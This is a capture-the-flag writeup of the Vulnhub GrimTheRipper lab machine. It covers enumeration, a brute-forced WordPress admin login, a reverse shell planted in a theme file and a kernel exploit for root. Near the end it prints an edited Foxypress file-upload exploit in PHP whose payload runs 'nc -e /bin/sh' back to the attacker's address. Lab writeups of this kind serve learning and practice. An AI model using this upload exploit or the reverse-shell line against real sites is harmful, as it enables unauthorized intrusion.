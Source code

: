 ```yaml
---
layout: post
title: Vulnhub - GrimTheRipper writeup
date: 2019-08-24 3:45 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/grimtheripper-1,350/">GrimTheRipper:1</a>
  <br>
</h1>

<h4 align="center"> Author: Manish Chandra</h4>

## Nmap

![](images/grim/nmap.png)

Looks like a Simple machine with only two ports open. Let's enum HTTP

***

## HTTP

![](images/grim/website.png)

Visiting the website we get nothing but the image of kevin hart.

I ran gobuster on this to find any hidden dir.

![](images/grim/gobuster.png)

We can see `robots.txt` there. In that I found `/index2.html`.

![](images/grim/robots.png)

If we visit `http://192.168.184.134/index2.html` we can see again a random image

![](images/grim/rando.png)

But in the source of that page I found a base64 encoded string.

![](images/grim/source.png)

`--THpFd01UQXhNREU9IHRyeSBoYXJk--`

I decoded it to find a new URL

![](images/grim/decode.png)

`/1010101`

If we visit that URL we can see a new directory named `wordpress`.

![](images/grim/wp-dir.png)

Since we've found a `wordpress` directory maybe it's time to run `wpscan`

![](images/grim/wordpress.png)

***
At this point we ([@4ndr34z](https://twitter.com/@4ndr34z), [@DCUA7](https://twitter.com/DCUA7), [@theart42](https://twitter.com/theart42), [@Robin](https://twitter.com/D4mianWayne)) were stucked for hours. We checked everything we could like shellshock vulnerability because the Apache server was old. Then we did SSH username enumeration because OpenSSH version was old. But we found nothing.

After many hours [@4ndr34z](https://twitter.com/4ndr34z) found the `admin` password for wordpress via bruteforce. It literally took more then 6 or 7 hours.

***

![](images/grim/pass.png)

__image by @4ndr34z__

`admin:Password@123`

With this password I was able to login into Wordpress.

![](images/grim/logged-in.png)

I edited the `Twenty Twelve` 404.php file with my reverse shell code.

![](images/grim/edit.png)

Now If we visit `http://192.168.184.134/1010101/wordpress/wp-content/themes/twentytwelve/404.php` while our listener is listening on port 4444 then we'll get the reverse shell.

![](images/grim/rev.png)

***

## Privilege escalation

I ran enumeration script and it found quite a few things.

![](images/grim/users.png)

and

![](images/grim/old-kernel.png)

I searched this kernel with `searchsploit` and found `overlayfs` exploit.

![](images/grim/exploit.png)

I downloaded that exploit and compiled it on the machine. After executing it I got the root shell.

![](images/grim/root-shell.png)

There was no root flag but still I was root.

![](images/grim/root.png)


***

## Intended way of getting shell

Okay so this is still kinda guessy but we think that `foxypress` plugin exploitation is the real way to get the reverse shell.

For exploiting `foxypress` we can use [WordPress Plugin Foxypress 0.4.1.1 < 0.4.2.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/18991) exploit.

Edit the exploit in the following way:

```php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://http://192.168.184.134/1010101/wordpress/wp-content/plugins/foxypress/uploadify/uploadify.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile"));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

<?php
system("nc -e /bin/sh 192.168.184.1 4444");
?>
```

And then run this exploit `php exploit.php` while your listener is running.

But the problem with this is we only know about `foxypress` because we logged in into wordpress. wpscan didn't pointed out presence of `foxypress`. So the question still remains that how do we know we are supposed to exploit that.

***

If this machine was supposed to be done the way we did it then it's really bad machine. I mean 6-7 hours of pure bruteforce is insane, not in a good way.

But if author or someone else ends up reading this and knows the really way to solve this then please let me know.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
